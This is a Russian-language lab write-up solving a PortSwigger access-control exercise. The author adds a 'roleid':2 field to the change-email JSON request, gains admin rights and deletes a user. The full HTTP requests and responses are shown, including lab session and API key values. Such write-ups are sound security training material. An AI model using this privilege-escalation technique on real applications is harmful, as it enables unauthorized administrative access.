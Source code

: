```yaml
---
title: "User role can be modified in user profile"
date: 2025-07-18
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile"
classes: wide
---
```


В данной лабе есть ендпоинт `/admin`. Для получения доступа нужно установить `roleid` в 2. Для решения нужно удалить пользователя `carlos`. Даны креды `wiener`:`peter`.

```
https://0a3a00ad0400e296e61a760700300094.web-security-academy.net
```

## Solution

Зайду в аккаунт и попробую перейти на админ-панель.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_role_can_be_modified_in_user_profile/1.png){: height="200" .align-center}

В лк есть возможность сменить почту. Попробую это сделать:

```http
POST /my-account/change-email HTTP/2
Host: 0a3a00ad0400e296e61a760700300094.web-security-academy.net
Cookie: session=0HDsFaqSQFPL0OnVFYE9rMckpsRgtHBA
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3a00ad0400e296e61a760700300094.web-security-academy.net/my-account?id=wiener
Content-Type: text/plain;charset=UTF-8
Content-Length: 24
Origin: https://0a3a00ad0400e296e61a760700300094.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"email":"new@mail.com"}
```

Ответ:

```http
HTTP/2 302 Found
Location: /my-account
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 116

{
  "username": "wiener",
  "email": "new@mail.com",
  "apikey": "i8MIpGMUiEIx9oc6TvuBS30nGyS2fcNV",
  "roleid": 1
}
```

Вижу поле `roleid`. Попробую отредачить тело запроса, чтобы изменить это значение на 2:

```http
POST /my-account/change-email HTTP/2
Host: 0a3a00ad0400e296e61a760700300094.web-security-academy.net
Cookie: session=0HDsFaqSQFPL0OnVFYE9rMckpsRgtHBA
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3a00ad0400e296e61a760700300094.web-security-academy.net/my-account?id=wiener
Content-Type: text/plain;charset=UTF-8
Content-Length: 38
Origin: https://0a3a00ad0400e296e61a760700300094.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"email":"new@mail.com",
"roleid":2 }
```

Ответ:

```http
HTTP/2 302 Found
Location: /my-account
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 116

{
  "username": "wiener",
  "email": "new@mail.com",
  "apikey": "i8MIpGMUiEIx9oc6TvuBS30nGyS2fcNV",
  "roleid": 2
}
```

Попробую зайти в админ-панель:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_role_can_be_modified_in_user_profile/2.png){: height="200" .align-center}

Успех. Удалю пользователя:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_role_can_be_modified_in_user_profile/3.png){: height="200" .align-center}
